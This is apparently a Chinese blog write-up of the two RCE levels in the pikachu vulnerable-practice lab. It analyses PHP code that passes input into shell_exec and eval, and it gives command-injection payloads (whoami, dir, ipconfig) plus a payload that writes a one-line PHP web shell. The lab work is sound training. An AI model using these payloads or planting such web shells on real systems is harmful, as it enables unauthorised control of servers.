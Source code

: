 ```yaml
---
layout: post
title: pikachu-01 RCE
author: PWN022
tags:
- Network security
date: 2025-10-04 00:08 +0800
toc:  true
excerpt: ""
---
```


# pikachu-01 RCE(remote command/code execute)

# 概述

pikachu靶场的RCE远程命令执行关卡（2关）记录。

> **介绍**
> RCE远程命令/代码执行，RCE英文全称：remote command/code execute。它是一种极为严重的安全风险，允许攻击者在未授权的情况下，通过网络远程在目标系统上执行任意代码。攻击者利用 RCE安全风险，可直接获取系统的控制权，进而窃取敏感信息，如用户账号、密码、企业机密数据等；还能篡改系统文件和配置，破坏系统的正常运行，导致业务中断；甚至可以在系统中植入后门程序，长期控制目标系统，为后续的攻击活动提供便利。
>
> **远程系统命令执行**
> 一般出现这种漏洞，是因为应用系统从设计上需要给用户提供指定的远程命令操作的接口，比如我们常见的路由器、防火墙、入侵检测等设备的web管理界面上，一般会给用户提供一个ping操作的web界面，用户从web界面输入目标IP，提交后，后台会对该IP地址进行一次ping测试，并返回测试结果。 而，如果，设计者在完成该功能时，没有做严格的安全控制，则可能会导致攻击者通过该接口提交“意想不到”的命令，从而让后台进行执行，从而控制整个后台服务器。
>
> 现在很多的甲方企业都开始实施自动化运维,大量的系统操作会通过"自动化运维平台"进行操作。 在这种平台上往往会出现远程系统命令执行的漏洞,不信的话现在就可以找你们运维部的系统测试一下,会有意想不到的"收获"-_-
>
> **远程代码执行**
> 同样的道理,因为需求设计,后台有时候也会把用户的输入作为代码的一部分进行执行,也就造成了远程代码执行漏洞。 不管是使用了代码执行的函数,还是使用了不安全的反序列化等等。因此，如果需要给前端用户提供操作类的API接口，一定需要对接口输入的内容进行严格的判断，比如实施严格的白名单策略会是一个比较好的方法。你可以通过“RCE”对应的测试栏目，来进一步的了解该漏洞。

## 常用符号

在命令执行安全风险场景里，`&、&&、|、||、`; 这些符号被攻击者用于拼接命令和控制命令执行流程，以下是它们的用法和区别如下所示。

1. `&`

   作用：在多数操作系统中，& 用于让命令在后台执行。在命令执行安全风险里，它能使多个命令并行执行，即前一个命令启动后，后续命令无需等待其完成就会开始执行。

   示例：假设存在安全风险的系统允许用户输入并执行命令，攻击者输入 `ping 127.0.0.1 & ls`，那么 ping 命令和 ls 命令会同时开始执行。

2. `&&`

   作用：&& 用于按顺序依次执行命令，并且只有当前一个命令成功执行（返回状态码为 0）时，才会执行后一个命令。这常用于需要前一个操作完成且成功后再进行下一步操作的情况。

   示例：输入 `ping 127.0.0.1 && ls`，只有当 ping 命令成功执行（即能正常连接到 127.0.0.1）时，ls 命令才会执行。

3. `|`

   作用：| 是管道符号，它把前一个命令的输出作为后一个命令的输入。攻击者可利用它将多个命令组合起来，实现复杂的数据处理和操作。

   示例：输入`ls | grep test`，ls 命令会列出当前目录下的文件和文件夹，然后将结果传递给 grep 命令，grep 会在这些结果中查找包含 "test" 的行。同理也可以进行如`ping 127.0.0.1 | whoami`此类的操作。

4. `||`

   作用：|| 同样用于连接两个命令，不过与 && 相反，只有当前一个命令执行失败（返回状态码不为 0）时，才会执行后一个命令。这可用于在某个操作失败时执行备用操作。

   示例：输入 `false || ls`，由于 false 命令执行失败，所以会接着执行 ls 命令。

5. `;`

   作用：; 用于分隔多个命令，它会依次执行这些命令，无论前一个命令执行成功与否，后续命令都会继续执行。

   示例：输入 `ping 127.0.0.1 ; ls`，先执行 ping 命令，然后不管 ping 执行结果如何，都会执行 ls 命令。

# exec-ping

## 源码分析

```php
// 初始化一个空字符串变量 $result，用于存储执行命令后的结果
$result = '';
 
// 检查是否通过 POST 方式提交了表单，并且表单中名为 'ipaddress' 的字段不为空
if (isset($_POST['submit']) && $_POST['ipaddress'] != null) {
    // 从 POST 请求中获取用户输入的 IP 地址，并将其赋值给变量 $ip
    $ip = $_POST['ipaddress'];
    // $check=explode('.', $ip);
    // 这是一段注释掉的代码，原本意图是将 IP 地址按点号 '.' 拆分成数组，
    // 然后可以对数组中的每个数字进行范围校验，
    // 例如第一位和第四位数字范围是 1 - 255，中间两位数字范围是 0 - 255
    // $check = explode('.', $ip); 
 
    // 检查当前服务器操作系统是否为 Windows 系统
    if (stristr(php_uname('s'), 'windows')) {
        // var_dump(php_uname('s')); 这是一段注释掉的代码，用于打印当前服务器操作系统名称
        // 使用 shell_exec 函数执行 Windows 系统下的 ping 命令，将用户输入的 IP 地址直接拼接到命令中
        // 并将执行结果追加到 $result 变量中
        $result .= shell_exec('ping ' . $ip);
    } else {
        // 如果服务器操作系统不是 Windows 系统，则执行 Linux 系统下的 ping 命令，
        // 并指定 ping 的次数为 4 次，同样将用户输入的 IP 地址直接拼接到命令中
        // 并将执行结果追加到 $result 变量中
        $result .= shell_exec('ping -c 4 ' . $ip);
    }
}
```

## 解决乱码

在pikachu-master\vul\rce目录中找到rce_ping.php文件，按如下代码进行修改即可解决乱码问题。

```php
if($result){
	$result = iconv("GBK", "UTF-8", $result); // 添加此行代码
	echo "<pre>{$result}</pre>";
}
```

## 正式操作

由于windows和linux有3个命令连接符是相同的`（|,||,&&）`，因此在不知道目标的具体操作系统的情况下（虽然是我自己搭建的环境，但是，假装不知道吧）。

输入payload：`127.0.0.1 | whoami`，结果如下图所示，执行完命令后，可以在页面看到已经获取到了目标的域和用户名：win-unahmjh2g8h\administrator，同时由于是administrator所以也知道了操作系统为Windows。

![alt](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce1.png)

输入payload：`127.0.0.1 | dir`，即可查看到当前路径和路径下的文件。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2.png)

当然还有其它操作，比如输入payload：`127.0.0.1 | ipconfig`可以查看到目标的IP地址。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce3.png)

# exec-eval

## 源码分析

前端：name="txt"产生 POST 字段；后端：用户输入未被过滤直接传入eval()函数中。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-5.png)

## 正式操作

题目给到提交一个喜欢的字符串，所以就先随便扔点东西上去。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-1.png)

这里发现好像没什么限制，所以直接不演了，payload直接输入phpinfo();发现被执行，所以再试试能不能植入一句话木马。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-2.png)

```php
// 一句话木马投放
// payload：
fputs(fopen('shell.php','w'),'<?php assert($_POST[fin]);?>');
```

提交一句话之后，发现页面没什么变化，但是当返回靶机进行查看后，发现目录下已经多了一个shell.php的文件，遂用蚁剑进行连接，于是整个关卡到此结束。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-3.png)

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/rce2-4.png)

